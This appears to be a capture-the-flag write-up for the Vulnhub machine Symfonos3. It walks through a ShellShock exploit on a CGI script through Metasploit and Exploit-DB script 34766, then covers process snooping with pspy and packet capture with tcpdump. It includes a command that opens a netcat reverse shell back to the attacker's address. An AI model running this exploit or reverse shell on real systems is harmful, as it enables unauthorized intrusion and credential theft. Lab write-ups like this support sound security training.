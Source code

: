 We can use that on our machine too by typing ``uptime``
```
root@w0lf:~/CTF/Vulnhub/Symfonos3# uptime
 19:20:48 up 54 min,  1 user,  load average: 0.56, 0.69, 0.62
```
So this might be a ShellShock Vulnerability.

>/cgi-bin is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website.

Reference:
>https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/

## Method 1 (Metasploit):

![Untitled](/img/symfonos3/7.png)

> - Changed TARGETURI /cgi-bin/underworld/
> - Changed RHOST 192.168.1.102

We will get user ``cerberus`` shell.

## Method 2 :

Searched ``shellshock`` in Searchsploit and it displays some exploits. I choosed [BASH](https://www.exploit-db.com/exploits/34766)
![Untitled](/img/symfonos3/8.png)

According to the example

>php 34766.php -u http://192.168.1.102/cgi-bin/underworld/ -c "nc -e /bin/bash 192.168.1.103 1234"

![Untitled](/img/symfonos3/9.png)

Got ``cerberus`` shell.

Uploaded my Linux Enumeration Script but didn't found anything useful. So uploaded my ``Pspy`` to see anything running on the background.


>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

There is a python script running on the background ``ftpclient.py`` sending some data to ftp. We don't have permission to view the python script. Since ``ftp`` is Plain text we can capture those packets and view them in wireshark.
![Untitled](/img/symfonos3/10.png)

We can use ``tcpdump``

>tcpdump - dump traffic on a network

```
cerberus@symfonos3:/tmp$ tcpdump -D
1.enp0s17 [Up, Running]
2.any (Pseudo-device that captures on all interfaces) [Up, Running]
3.lo [Up, Running, Loopback]
4.nflog (Linux netfilter log (NFLOG) interface)
5.nfqueue (Linux netfilter queue (NFQUEUE) interface)
6.usbmon1 (USB bus number 1)
```
>-D 	Print the list of the network interfaces available on the system and on which tcp‐dump  can  capture packets.
